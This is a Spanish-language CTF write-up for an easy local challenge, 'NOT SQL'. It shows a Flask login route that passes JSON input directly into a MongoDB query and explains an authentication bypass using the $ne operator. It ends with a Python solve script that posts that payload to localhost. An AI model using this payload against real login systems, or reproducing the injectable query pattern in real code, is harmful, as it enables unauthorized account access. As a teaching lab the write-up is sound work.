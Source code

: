 # Description

Name: NOT SQL

Description: Este reto no es una inyección SQL

Difficulty: Ez

# Set up

`docker build -t ctf-nosql .`

`docker run -d --rm -p 6002:6002 --name ctf-nosql ctf-nosql`

# Write up

Visitando la página principal del reto, obtenemos el código fuente. Revisando este código podemos ver que la aplicación Flask hace uso de una base de datos NoSQL (mongodb) y tiene una ruta adicional: `/login`, accesible mediante métodos GET y POST.

Navegando a `/login`, el reto nos presenta el formulario de login más feo de la historia, si analizamos el código podemos ver como gestiona los parámetros introducidos por los usuarios.

```python
@app.route('/login', methods=['POST'])
def login():
    if request.is_json:
        data = request.get_json()
        username = data.get('username')
        password = data.get('password')
        user = users.find_one({'username': username, 'password': password})

        if user:
            with open('flag.txt', "r") as f:
                flag = f.read()
            return f'Welcome\n{flag}', 200, {'Content-Type': 'text/plain'}
        else:
            return 'Invalid username or password'
    else:
        return 'Request must be in JSON format.'
```

En este caso, como se puede comprobar en el código, la ruta `/login` recibe los parámetros del formulario en formato json, este es un punto importante ya que lo tendremos que tener en cuenta posteriormente para enviar nuestras peticiones.

Esos parámetros en formato json se usan para hacer una query a la base de datos y verificar si existe un usuarios que coincida con los datos introducidos.

`user = users.find_one({'username': username, 'password': password})`

Podemos establecer similitudes con una query de SQL, la traducción podría ser la siguiente:

`SELECT * FROM users WHERE username = 'username' AND password = 'password' LIMIT 1`

Como podemos ver, la diferencia es que la condición del `WHERE` se define haciendo uso de diccionarios, pero no deja de ser una condición. Por tanto, nuestro objetivo sigue siendo el de hacer que ese condicional sea verdadero para que se devuelva algún registro de la base de datos (como si nos hubieramos autenticado con un usuario y contraseña reales), de esta forma conseguiremos acceso y la flag.

Existen numerosa documentación acerca de inyecciones NoSQL, para conocer que forma tienen las payloads usadas podemos visitar https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

Las payloads se basan en el uso de operadores como `$ne`, `$ne` o `$regex` que podemos usar para definir nuestras propias condiciones.

Por ejemplo, si proporcionamos los siguientes parámetros como entrada:

`{"username": {"$ne": ""}, "password": {"$ne": ""} }`

Conseguiríamos que la condición del `find_one` sea:

`users.find_one({'username': {"$ne": ""}, 'password': {"$ne": ""}})`

De forma traducida, le estaríamos diciendo a la base de datos: "dame un usuario de la colección users cuyo username sea **no igual** a una cadena vacía y cuya contraseña sea **no igual** a una cadena vacía".

De esta forma la query siempre devolvería algún resultado ya que es seguro que los usuarios existentes en la base de datos tienen usernames y passwords no vacios.

Para construir la petición y enviar nuestro payload hay que tener en cuenta un par de detalles:

1. El `Content-Type` indicado debe ser `application/json` ya que la aplicación nos pide los parámetros en formato json.
2. Indicar los parámetros en formato json, obviamente.

Usando Burp Suite podemos hacer una petición como la que se muestra y obtener la flag.

![](_assets/2023-04-27-00-34-13.png)


Podemos automatizar la resolución del reto de forma simple con el siguiente script de Python:

# solve.py

```python
import requests

# Change this
target = 'http://127.0.0.1:6002'


payload = '''{"username": {"$ne": ""},"password": {"$ne": ""}}'''


r = requests.post(f'{target}/login',data=payload, headers={'Content-Type':'application/json'})
print(r.text)
```